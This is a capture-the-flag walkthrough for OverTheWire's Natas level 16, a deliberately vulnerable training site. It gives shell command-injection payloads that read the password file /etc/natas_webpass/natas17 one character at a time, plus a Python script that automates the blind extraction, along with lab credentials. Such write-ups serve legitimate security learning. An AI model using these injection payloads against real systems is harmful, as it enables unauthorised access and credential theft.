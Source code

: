 # Level 15 → Level 16

## Details
Username: `natas16`<br />
Password: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`<br />
URL:      http://natas16.natas.labs.overthewire.org

## Solution

# exstract spesific letter from password
`$(cut -c 1-1 /etc/natas_webpass/natas17)`


# convert numbers to chars
`$(printf \\$(printf %03o $((97+$(cut -c 8-8 /etc/natas_webpass/natas17)))))`

# convert char to 'a' just if it was lower case

`$(python3 -c $(echo print\(chr\(97+\(100-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c 3-3
 b.sh)$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))`

 `$(python3 -c $(echo print\(chr\(97+\(105-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c 5-5
 /etc/natas_webpass/natas16)$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))`

https://stackoverflow.com/questions/12855610/shell-script-is-there-any-way-converting-number-to-char


and then extract just one letter!
and do it like "blind sql injection"


```python
from requests import post
from requests.utils import quote

PASSWORD_FILENAME = '/etc/natas_webpass/natas17'
PASSWORD_LENGTH = 32
CHAR_EXTRACTION = "$(cut -c {}-{} {})"
DIGIT_EXTRACTION = "$(printf \\\$(printf %03o $((97+$(cut -c {}-{} {})))))"
DETECT_LOWER_CASE = "$(python3 -c $(echo print\(chr\(97+\({}-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c {}-{} {})$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))"


URL = "http://natas16.natas.labs.overthewire.org/index.php"
HEADERS ={}
HEADERS["Authorization"] =\
"Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"
DATA = "needle="

def get_dictionary_words(html):
    # This is not what prevents distinction between upper and lowercase letters.
    # but done for convenience.
    html = html.lower()
    return html[html.find('<pre>')+6:html.find('</pre>')].split('\n')
    
def get_common_letter(words_list):
    # remove the last 'word' that equals always to ''
    words_list = words_list[:-1]
    
    # it's no words so digit here.
    if not words_list: return '_'
    
    # take the shortest word in the list
    words_list.sort(key=len)
    shortes_word = words_list[0]
    
    # if there is word with one character, so this is the common letter.
    if(len(shortes_word) == 1): return shortes_word
    
    # find the letter that apear in every word.
    for letter in shortes_word:
        is_common = True
        
        for word in words_list:
            if letter not in word:
                is_common = False
                break
        
        if is_common: return letter

password = ""

print("FIND CASE-INSENSITIVE LETTERS:") 
for i in range(1, PASSWORD_LENGTH+1):
    response = post(url=URL, headers=HEADERS, data=DATA+quote(CHAR_EXTRACTION.format(i,i,PASSWORD_FILENAME)))
    password += get_common_letter(get_dictionary_words(response.text))
    print("password: " + password.ljust(32, "_"))
    
if '_' in password:
    print("\nFIND DIGITS:") 
    while('_' in password):
        i = password.find('_') + 1
        response = post(url=URL, headers=HEADERS, data=DATA+quote(DIGIT_EXTRACTION.format(i,i,PASSWORD_FILENAME)))
        letter = get_common_letter(get_dictionary_words(response.text))
        digit = str(ord(letter) - ord('a'))
        password = password.replace('_', digit, 1)
        print("password: " + password.ljust(32, "_"))
        
print("\nDETECT UPPER CASE LETTER:")
for i in range(PASSWORD_LENGTH):
    if password[i].isalnum():
        response = post(url=URL, headers=HEADERS, data=DATA+quote(DETECT_LOWER_CASE.format(ord(password[i]),i+1,i+1,PASSWORD_FILENAME)))
        letter = get_common_letter(get_dictionary_words(response.text))
        if letter != 'a':
            password = password[:i] + password[i].upper() + password[i+1:]
            print("password: " + password.ljust(32, "_"))
```

## Password for the next level:
```
XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
```